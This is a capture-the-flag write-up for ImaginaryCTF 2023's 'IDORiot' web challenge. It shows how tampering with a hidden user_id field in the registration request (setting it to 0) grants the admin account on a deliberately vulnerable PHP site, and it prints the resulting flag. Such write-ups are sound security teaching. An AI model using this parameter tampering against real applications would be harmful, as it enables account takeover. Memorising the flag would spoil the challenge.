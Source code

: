```yaml
---
name: IDORiot (2023)
event: Imaginary 2023
category: Web
description: Writeup for IDORiot (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# IDORiot

## Description

> Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.

Challenge name indicates an [IDOR](https://portswigger.net/web-security/access-control/idor) vulnerability. There's no source code, so let's investigate [the site](http://idoriot.chal.imaginaryctf.org)

## Recon

We are immediately greeted by a login screen. I would normally try some default creds, SQLi etc but based on the challenge name, I decide to skip straight to user registration.

I register `cat:cat` and see a message `Welcome, User ID: 154308130`.

The source code is also displayed on-screen.

```php
session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}
```

Accordingly, our goal is to gain access to the admin's account. If our `$_SESSION['user_id']` matches that of the admin, we get the flag.

## Solution

Tried to MD5 the user ID to see if matches the session value: `5b2deaedb34c1bbd66856710f647c1db`.

```bash
echo -n "154308130" | md5sum
87cd5ed599b872262ff865945845cd71  -
```

No match, tried to register another user `cat2:cat2` and get `Welcome, User ID: 275541975` with a session id `ef64cdce8f1247feb73ceddf86027774`.

Checking the registration login request, the user ID is specified.

```js
username=cat2&password=cat2&user_id=275541975
```

Tried sending the registration request to burp's repeater.

```js
username=cat3&password=cat3&user_id=0
```

The flag is displayed.

Flag: `ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}`
